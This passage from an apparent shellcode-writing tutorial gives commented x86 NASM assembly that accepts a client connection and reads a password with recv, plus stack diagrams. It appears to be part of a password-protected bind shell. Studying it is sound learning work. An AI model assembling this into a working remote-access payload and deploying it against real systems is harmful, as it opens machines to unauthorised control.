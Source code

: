 {% highlight nasm %}
        xor ecx, ecx    ; Zero the ECX register.
        
        mov al, 0x66    ; Put the sys_socketcall number into EAX.
        inc ebx         ; Increase EBX so it points to sys_accept().
        push ecx        ; Set sockaddr to NULL.
        push ecx        ; Set sockaddr_len to NULL.
        push edi        ; Push our socket file descriptor.

        mov ecx, esp    ; Copy a pointer to our arguments in ECX.
        int 0x80        ; Use interupt 0x80 to invoke a syscall.
        ; sys_socketcall(sys_accept,{socketfd,0,0})

        xchg eax, esi   ; Save our client socket to ESI for later usage.
{% endhighlight %}

In order to get the clients password we can call

_{% raw %}recv(client_socketfd, stack_address, addr_len, NULL){% endraw %}_

and compare it to our password.

{% highlight nasm %}

        xor ecx, ecx    ; Zero the ECX register.

        mov al, 0x66    ; Put the sys_socketcall number into EAX.
        mov bl, 0x0a    ; Put the sys_recv() call number into EBX.

        push ecx        ; NULL
        push 0x0c       ; Push the size to recv(). (12)
        push esp        ; Push the address to write our recieved data.
        push esi        ; Push our client socket file descriptor.

        mov ecx, esp    ; Copy a pointer to our arguments in ECX.
        int 0x80        ; Use interupt 0x80 to invoke a syscall.
        ; sys_socketcall(sys_recv,{client_socketfd,0,0})
{% endhighlight %}

Here is what our stack will look like before and after the **int 0x80** instruction.
{% highlight text %}


                    [       Before      ]
                    +-------------------+
            ESP --> |  client_socketfd  |
                    +-------------------+
                +4  |      esp_addr     |---+
                    +-------------------+   | Pointer to the previous address
                +8  |        0x0c       | <-+
                    +-------------------+
                +12 |        NULL       |
                    +-------------------+

                    [       After       ]
                    +-------------------+
            ESP --> |  client_socketfd  |
                    +-------------------+
                +4  |      esp_addr     |---+
                    +-------------------+   | Pointer to the password
                +8  |       'pass'      | <-+       
                    +-------------------+
                +12 |       'word'      |
                    +-------------------+
{% endhighlight %}
